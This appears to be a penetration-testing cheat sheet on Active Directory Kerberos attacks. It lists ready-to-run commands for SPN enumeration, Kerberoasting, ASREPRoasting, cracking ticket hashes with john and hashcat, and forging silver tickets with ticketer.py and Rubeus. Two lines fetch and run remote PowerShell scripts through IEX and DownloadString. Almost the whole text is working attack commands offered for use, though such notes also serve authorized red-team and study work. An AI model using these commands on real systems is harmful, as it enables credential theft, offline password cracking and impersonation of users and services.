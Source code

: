 # Kerberos Info Gathering
## Query SPNs
If you want to first only query registered SPNs to limit the noise, there are different methods.   
**CMD.exe**   
Using cmd.exe: (The following example searches all SPNs in the domain from MSSQL servers)   
`setspn -Q MSSQLSvc/*`   

Using cmd.exe on a foreign domain: (The following example searches for Hyper-V related SPNs)   
`setspn -Q *hyper*/* -T <domainname>`   

**Native PowerShell**   
```
$search = [adsisearcher]"(&(sAMAccountType=805306368)(servicePrincipalName=*))"
$search.PageSize = 10000
$spnusers = $search.FindAll()
```   
**BloodHound**   
Using BloodHound: (list all user accounts with an SPN)   
`MATCH (u:User {hasspn:true}) RETURN u`   
You can even expand the BloodHound query to include pathes to computers from these accounts:   
`MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`   

## Get Kerberos Delegation Accounts
Requires AD Modules:   
`Get-ADObject -filter { (UserAccountControl -BAND 0x0080000) -OR (UserAccountControl -BAND 0x1000000) -OR (msDS-AllowedToDelegateTo -like '*') } -prop Name,ObjectClass,PrimaryGroupID,UserAccountControl,ServicePrincipalName,msDS-AllowedToDelegateTo`   

# Kerberos Attacks
## Kerberoasting
### From Windows
Against single user using Rubeus.exe:   
`.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`   
`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`   

Using Powerview:   
``` 
IEX ((New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"))
Request-SPNTicket -SPN "<SPN>" -Format Hashcat
```     
Using Invoke-Kerberoast:    
`IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat Hashcat`   

### From Linux
Using GetUserSPN.py:   
`python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`   
Kerberoast all SPNs (NOT OPSEC!!!):   
`proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`   
Another tool:   
 - https://github.com/ShutdownRepo/targetedKerberoast   

### Cracking
`john --format=krb5tgs --wordlist=wordlist svc_mssql`   
`hashcat -a 0 -m 13100 svc_mssql wordlist`   

## ASREPRoast 
Query accounts for "do not require Kerberos pre-authentication":   
`([adsisearcher]"(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll()`   
Find such users in BloodHound:   
`MATCH (u:User {dontreqpreauth:true}) RETURN u`   

If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request domain.local/someaccount:`   

On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   

### Cracking
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat --attack-mode 0 --hash-type 18200 hashes.asreproast /srv/wordlists/uncompressed/crackstation-human-only.txt --rules-file /srv/rules/nsa_500.txt`   

## Silver Ticket Attack
If you have the plaintext password or the NT hash of a service account, you can create Kerberos Service tickets for this service in the name of any user (as long as PAC validation is not enabled).

### Linux
```
ticketer.py -nthash 077CCCC23F8AB7031BEEFB70C694A49 -domain-sid S-1-5-21-875478684-1579768486-654964636 -domain dumpsterfire.local -spn MSSQLSvc/server.dumpsterfire.local:SQLINSTANCE1 targetuser
export KRB5CCNAME=/home/kali/mikkorantanen.ccache
```
Use with e.g.:
`mssqlclient.py dumpsterfire.local/targetuser@server.dumpsterfire.local -k -no-pass`

### Windows
```
.\Rubeus.exe silver /service:MSSQLSvc/server.dumpsterfire.local /rc4:077CCCC23F8ABEEF26A3B70C694A49 /sid:S-1-5-21-875478684-2579768486-654964636 /user:targetuser /domain:dumpsterfire.local /ptt 
```
With `/ptt` the ticket is automatically imported into the local Kerberos cache and can be used to connect to the target service.
